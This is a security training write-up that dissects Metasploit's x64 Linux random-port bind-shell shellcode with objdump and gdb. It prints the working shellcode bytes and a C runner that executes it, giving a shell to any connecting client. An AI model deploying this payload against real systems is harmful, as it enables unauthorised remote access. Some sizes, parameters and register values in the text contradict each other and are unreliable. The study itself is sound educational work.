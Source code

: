## Assignment #5.2: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

> NOTE: In the captures of `gdb`, comments are especified with the `<==` symbol. This is added when want to comment what's going on in the debugger.

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, is listens for incoming connections in a random port. From another terminal using `netstat` check what's the listening port, and with `netcat`, can connect. A shell is spawned:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_02
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_dup2`   : Value 0x21
- `sys_execve` : Value 0x3b

### The Fun: GDB Analysis
---
As how the shellcode is disasembled, the code can be divided in sections. This sections are defined by the different syscalls. To simplify the analysis, we going to debug section by section.

Let's load the exec file into `gdb`, setup the environment, and place a breakpoint in the code section with `b *&code`:

```asm
SLAE64> gdb ./Payload_02
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Reading symbols from ./Payload_02...(no debugging symbols found)...done.
(gdb) 
(gdb) set disassembly-flavor intel
(gdb) b *&code
Breakpoint 1 at 0x4060
(gdb) 
```
Now can start debugging, let's `run` the program and `disassemble` it:
```asm
(gdb) run
Starting program: /root/SLAE64/Exam/Assignment05/Payload_02 
ShellCode Lenght: 57

Breakpoint 1, 0x0000555555558060 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0000555555558060 <+0>:	xor    rsi,rsi
   0x0000555555558063 <+3>:	mul    rsi
   0x0000555555558066 <+6>:	inc    esi
   0x0000555555558068 <+8>:	push   0x2
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29
   0x000055555555806d <+13>:	syscall 
   0x000055555555806f <+15>:	push   rdx
   0x0000555555558070 <+16>:	pop    rsi
   0x0000555555558071 <+17>:	push   rax
   0x0000555555558072 <+18>:	pop    rdi
   0x0000555555558073 <+19>:	mov    al,0x32
   0x0000555555558075 <+21>:	syscall 
   0x0000555555558077 <+23>:	mov    al,0x2b
   0x0000555555558079 <+25>:	syscall 
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
   0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
   0x0000555555558099 <+57>:	add    BYTE PTR [rax],al
End of assembler dump.
(gdb) 
```
All looks good, let's dissect the functionality.

#### Section 1: `sys_socket`

In this section, the `socket` call is to be used. From it's man page can get the function definition:
```c
int socket(int domain, int type, int protocol);
```
Then registers for this syscall need to get the following values:
- RAX gets the syscall number, 0x29
- RDI gets the domain. As it's an IPv4 connection, value has to be 2 (AF_INET)
- RSI gets the type of the connection. As it's a TCP oriented connection, value has to be 0x01 (SOCK_STREAM)
- RDX gets the protocol. As it's an IP connection, value has to be 0x00
Let's debug this part, reviewing that registers get this values before the syscall, and understanding what's done in the code:
```asm
(gdb) stepi
0x0000555555558063 in code ()
(gdb) stepi
0x0000555555558066 in code ()
(gdb) stepi
0x0000555555558068 in code ()
(gdb) stepi
0x000055555555806a in code ()
(gdb) stepi
0x000055555555806b in code ()
(gdb) stepi
0x000055555555806d in code ()
(gdb) disassemble 
Dump of assembler code for function code:
   0x0000555555558060 <+0>:	xor    rsi,rsi        <== ZEROes RSI
   0x0000555555558063 <+3>:	mul    rsi            <== RAX <- 0 and RDX <- 0
   0x0000555555558066 <+6>:	inc    esi            <== RSI <- 1 for SOCK_STREAM
   0x0000555555558068 <+8>:	push   0x2            <== RDI <- 2 for AF_INET
   0x000055555555806a <+10>:	pop    rdi
   0x000055555555806b <+11>:	mov    al,0x29        <== RAX <- 0x29 for syscall number
=> 0x000055555555806d <+13>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
At this point, let's review that registers got the right values:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x29                41
rdi            0x2                 2
rsi            0x1                 1
rdx            0x0                 0
(gdb) 
```
Then the syscall can be run, as the parameters are correct. Remember that this syscall returns in RAX the socket descriptor.
```asm
(gdb) stepi
0x000055555555806f in code ()
```
#### Section 2: `sys_listen`
Here in this section the `listen` call. From the man page:
```c
int listen(int sockfd, int backlog);
```
Values for registers for this call have to be:
- RAX gets the syscall number, 0x32
- RDI gets the sock_descriptor
- RSI gets the backlog, 0x00
Let's understand the code here:
```asm
(gdb) stepi
0x0000555555558070 in code ()
(gdb) stepi
0x0000555555558071 in code ()
(gdb) stepi
0x0000555555558072 in code ()
(gdb) stepi
0x0000555555558073 in code ()
(gdb) stepi
0x0000555555558075 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**   
   0x000055555555806f <+15>:	push   rdx         <== Stack <- 0x00. RDX been zero'ed at +3
   0x0000555555558070 <+16>:	pop    rsi         <== RSI <- 0 for the parameter
   0x0000555555558071 <+17>:	push   rax         <== Pushes the socket descriptor in the stack
   0x0000555555558072 <+18>:	pop    rdi         <== RDI <- socket descriptor. Pop'ed from stack
   0x0000555555558073 <+19>:	mov    al,0x32     <== RAX <- Syscall number
=> 0x0000555555558075 <+21>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
Everyting looks correct. Let's check if the registers have the right values before the syscall:
```asm
(gdb) info registers rax rdi rsi
rax            0x32                50
rdi            0x3                 3
rsi            0x0                 0
(gdb) 
```
Good. s expected.
#### Section 3: `sys_accept`
For the`accept` call, it's defined as:
```c
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
```
Registers need this values:
- RAX for the syscall number, 0x2b
- RDI for the socket descriptor, that's already in RDI from the previous section (value "3")
- RSI a pointer to the sockaddr
- RDX the length of this struct
As i don't understand why no values are assigned to RSI and RDX in the code, a further read of the `accept()` man page, clarifies everything:
```c
...
When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
...
```
This mean that this two registers can be set to 0x00. Let's understand what the code does:
```asm
(gdb) stepi
0x0000555555558077 in code ()
(gdb) stepi
0x0000555555558079 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x0000555555558077 <+23>:	mov    al,0x2b     <== Syscall number for accept()
=> 0x0000555555558079 <+25>:	syscall 
**_REMOVED_**
End of assembler dump.
(gdb) 
```
RSI and RDX already got the NULL (`0x00`) value at instructions at +16 and + 18. Let's review the values of the registers before the syscall:
```asm
(gdb) info registers rax rdi rsi rdx
rax            0x2b                43
rdi            0x3                 3
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
Good, the expected values. The syscall can be executed, and will return a socket descriptor in RAX. 

#### Section 4: `sys_dup2`
From the `dup2()` manpage:
```c
int dup2(int oldfd, int newfd);
```
This said, register values for this call have to be:
- RAX for the syscall number, 0x21
- RDI for the old socket descriptor. Has to be the value returned in RAX for the previous `accept` syscall
- RSI for new file descriptor to duplicate the old descriptor. Will be the file descriptor for `stdin`, `stdout`, and `stderr`. 

> Ass the `accept()` will pause the program until a connection is received, a `netcat` connection is done from another terminal. Still while debugging, the program wont work as expected because no `dup2()`and no `execve()` been done yet. 

Reviewing the code:
```asm
(gdb) stepi
0x000055555555807b in code ()
(gdb) stepi
0x000055555555807c in code ()
(gdb) stepi
0x000055555555807d in code ()
(gdb) stepi
0x000055555555807f in code ()
(gdb) stepi
0x0000555555558081 in code ()
(gdb) stepi
0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi         <== RDI has the socket descriptor from `socket` call (that's "3")
   0x000055555555807c <+28>:	pop    rsi         <== RSI <- Socket descriptor
   0x000055555555807d <+29>:	xchg   rdi,rax     <== RDI <- Socket descriptor for the `accept`. This is the 
   0x000055555555807f <+31>:	dec    esi         <== RDI = RDI - 1
   0x0000555555558081 <+33>:	mov    al,0x21     <== Syscall Number for `dup2`
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>   <== Jumps to +31 to `dup2()` another new file descriptor
**_REMOVED_**
End of assembler dump.
(gdb) 
```
The code simply places the old file descriptor into RDI, and the new one into RSI. The `jne` at +37 jumps back to +31, that decrements the value for RSI to duplicate another new file descriptor. New file descriptors will be duplicated in this order: `stderr`("2"), `stdout`("1") and then `stdin`("0"). When RSI value is "0", then the jump is not done and the program continues the flow.
To check that register valuesare correct before the syscall, let's place a breakpoinit at the +35 just before executing the syscall to be able to review it the 3 times it's called. Also at +39 `push rdx` after the duplication code to stop once it's done:
```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
   0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) info registers rdi rsi rax
rdi            0x4                 4
rsi            0x2                 2
rax            0x21                33
(gdb) b *0x0000555555558083
Breakpoint 2 at 0x555555558083
(gdb) b *0x0000555555558087
Breakpoint 3 at 0x555555558087
(gdb) 
```
In the first loop to duplicate `stderr`, RAX has to be 0x21, RDI has to be "0x04", and RSI has to be "0x02". Let's check:
```asm
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x2                 2
(gdb) 
```
Let's `continue` execution. It will do the jump, do the operations, and again before executing the syscall. This is loop 2 to duplicate `stdout`, hence values for registers must be "0x21" for RAX, "0x04" for RDI and "0x01" for RSI:
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x1                 2
(gdb) 
```
If `continue` again, will jump to +31 again for the duplication of `stdin`. Here the values have to be RAX to "0x21", RDI keeps the "0x04" value, and RSI updates to "0x00". 
```asm
(gdb) c
Continuing.
Breakpoint 2, 0x0000555555558083 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
   0x000055555555807b <+27>:	push   rdi
   0x000055555555807c <+28>:	pop    rsi
   0x000055555555807d <+29>:	xchg   rdi,rax
   0x000055555555807f <+31>:	dec    esi
   0x0000555555558081 <+33>:	mov    al,0x21
=> 0x0000555555558083 <+35>:	syscall 
   0x0000555555558085 <+37>:	jne    0x55555555807f <code+31>
**_REMOVED_**
End of assembler dump.
(gdb) info registers rax rdi rsi
rax            0x21                33
rdi            0x4                 4
rsi            0x0                 0
(gdb) 
```
Awesome. Everything as it should. Now let's `continue` the program, and this time won't jump and will stop at +39, ending the `dup2` section:
```asm
(gdb) c
Continuing.
Breakpoint 3, 0x0000555555558087 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED_**
=> 0x0000555555558087 <+39>:	push   rdx
**_REMOVED_**
End of assembler dump.
(gdb) 
```
#### Section 5: `sys_execve`

From the `execve` manpage:
```c
int  execve  (const  char  *filename,  
              const  char *argv [], const char
              *envp[]);
```
Also reviewing the code for this section in `gdb`, there is an hex value (`0x68732f6e69622f2f`) at +40 that ends being pushed in the stack at +50. Let's see what this value is:
```python
>>> "68732f6e69622f2f".decode('hex')[::-1]
'//bin/sh'
>>> 
```` 
This means that `execve` will execute the hardcoded command `//bin/sh`. And this defines values for the registers as follows:
- RAX: Syscall number, "0x3b"
- RDI: The memory address for the `//bin/sh` string
- RSI: The pointer to the memory address containing the address of the parameters. As no parameters are needed or used, simply gets the NULL value "0x00"
- RDX: NULL value, "0x00"
The Stack Technique is used, hence will need to review the values pushed in the stack before the syscall and the registers contents. `stepi`'ing and following the code, and stop just before the syscall:

```asm
(gdb) disassemble 
Dump of assembler code for function code:
**_REMOVED__**
=> 0x0000555555558087 <+39>:	push   rdx
   0x0000555555558088 <+40>:	movabs rdi,0x68732f6e69622f2f
   0x0000555555558092 <+50>:	push   rdi
   0x0000555555558093 <+51>:	push   rsp
   0x0000555555558094 <+52>:	pop    rdi
   0x0000555555558095 <+53>:	mov    al,0x3b
   0x0000555555558097 <+55>:	syscall 
End of assembler dump.
(gdb) stepi                                        <== Executes push rdx
0x0000555555558088 in code ()
(gdb) x/xg $rsp
0x7fffffffe750:	0x0000000000000000                 <== RDX is Pushed. RDX had 0x00 value from +3
(gdb) stepi                                        <== Executes movabs rdi,"//bin/sh"
0x0000555555558092 in code ()
(gdb) stepi                                        <== Pushes String to Stack. Executes push rdi
0x0000555555558093 in code ()
(gdb) x/s $rsp                                     <== Check top of the stack
0x7fffffffe748:	"//bin/sh"                         <== The string is in the stack
(gdb) stepi                                        <== Pushes the address of //bin/sh string into 
0x0000555555558094 in code ()                       == the stack. Executes push rsp
(gdb) stepi                                        <== RDI <- @ //bin/sh string. Executes pop rdi
0x0000555555558095 in code ()
(gdb) stepi
0x0000555555558097 in code ()
(gdb) 
```
Now the **RIP** is pointing to the `syscall` instruction. Let's stop here. The stack contents for what's been just debuged should be:
```asm
  Stack Address          Stack Content        
|------------------|------------------------|
|  0x7fffffffe748  |   "//bin/sh"           | 
|  0x7fffffffe750  |   0x0000000000000000   |
|-------------------------------------------|
```
Let's check that's ok:
```asm
(gdb) x/2xg $rsp
0x7fffffffe748:	0x68732f6e69622f2f	0x0000000000000000
(gdb) 
```
Hence, RSI should have the **`0x7fffffffe748`** as per the instruction executed at +52:
```asm
(gdb) info registers rdi
rdi            0x7fffffffe748      140737488349000
(gdb) x/s $rdi
0x7fffffffe748:	"//bin/sh"
(gdb) 
```
And RSI and RDX should have NULL values as no parameters are passed to the function:
```asm
(gdb) info registers rsi rdx
rsi            0x0                 0
rdx            0x0                 0
(gdb) 
```
#### The End 
Ok, all looks as it was expected. After `stepi` into the syscall, the shell will be spawned in our `netcat` session that we had to open to continue debugging in the previous sections:
```asm
(gdb) stepi
process 1513 is executing new program: /usr/bin/dash
(gdb) 
```
With the expected results:

<img src="https://galminyana.github.io/img/A052_Shellcode_End.png" width="75%" height="75%">

> However, didnt came this following question to you? Where is the code to generate the random port number? This is answered below

### Thoughts
---
From this analysis, some tricks been learned:

- No need to use the `sys_bind` syscall. As the code did not use it, researched about why not being used, and came up with a comment at StackOverflow. There are some posts that says that if a TCP or UDP socket is being used, the kernel will automatically bind the socket to a suitable port number. **This also the way that the payload uses to generate the random port!**. As the kernel defines a random port and binds it to the connection, the code to create a random port is not needed and reduces considerably the shellcode size.
- When using the `sys_accept`, no value it returns in the sockaddr struct will be used. Researching reading the man page further, in the thirth paragraph of the Description section, says that _"When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL."_. Not having to do all this work saves us time and shellcode size.
- When the command to be executed by `sys_execve` does not have any parameter, the second and thirth parameter can be NULL. Then only the command is executed without parameters.
- The use of the `mul` instruction to initialize to "0x00" the value of RAX and RDX registers at the same time.

With this learnings, will have to review the payloads created in the [Assignment01](Assignment01) and [Assignment02](Assignment02) applying this learned techniques to make their shellcode size reduced.

### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_02.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_02.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/shell_bind_tcp_random_port` shellcode.
- [Shellcode_02.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_02.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
